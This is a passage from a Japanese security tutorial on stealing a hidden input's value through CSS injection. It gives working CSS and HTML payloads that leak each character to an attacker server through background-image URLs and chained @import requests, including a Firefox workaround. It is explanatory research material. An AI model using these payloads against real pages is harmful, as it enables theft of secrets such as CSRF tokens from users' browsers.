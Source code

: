 ```css
}
```

ブラウザが応答を受信すると、上記のCSSスニペットを読み込みます。読み込み後、条件を満たす要素はバックエンドにリクエストを送信します。最初の文字がdだと仮定しましょう。次に、この時点で、サーバーは `https://myserver.com/payload?len=2` の内容で応答します。

```css
input[name="secret"][value^="da"] {
  background: url(https://b.myserver.com/leak?q=da)
}

input[name="secret"][value^="db"] {
  background: url(https://b.myserver.com/leak?q=db)
}

input[name="secret"][value^="dc"] {
  background: url(https://b.myserver.com/leak?q=dc)
}

//....

input[name="secret"][value^="dz"] {
  background: url(https://b.myserver.com/leak?q=dz)
}
```

このプロセスは繰り返され、これらの手順を繰り返すことで、すべての文字をサーバーに送信できます。これは、`import` がすでにダウンロードされたリソースを最初に読み込み、まだダウンロードされていないリソースを待つという特性に依存しています。

ここで注意すべき重要な点は、スタイルを `myserver.com` ドメインから読み込んでいるのに対し、背景画像のドメインは `b.myserver.com` であることです。これは、ブラウザが通常、単一ドメインから同時に読み込めるリクエスト数に制限があるためです。したがって、すべて `myserver.com` を使用すると、背景画像のリクエストがCSSインポートによってブロックされ、送信されないことがわかります。

したがって、この状況を回避するために、2つのドメインを設定する必要があります。

それ以外に、上記の方法はFirefoxでは機能しません。Firefoxでは、最初のリクエストの応答が先に返されても、スタイルはすぐに更新されません。すべてのリクエストが完了するまで待ってからまとめて更新されます。解決策については、Michał Bentkowski氏（名前を聞いたことがありますか？）が書いたこの記事を参照してください：[CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/)。最初のインポートステップを削除し、各文字のインポートを次のように追加のスタイルで囲みます。

```html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

上記のように記述すると、Chromeでも問題なく動作するため、上記のように統一することで、両方のブラウザを同時にサポートできます。

まとめると、`@import` というCSS機能を使用することで、「ページを再読み込みせずに、新しいスタイルを動的に読み込む」ことができ、それによって各文字を1つずつ盗むことができます。

## 一度に1文字ずつ盗むのは遅すぎる？
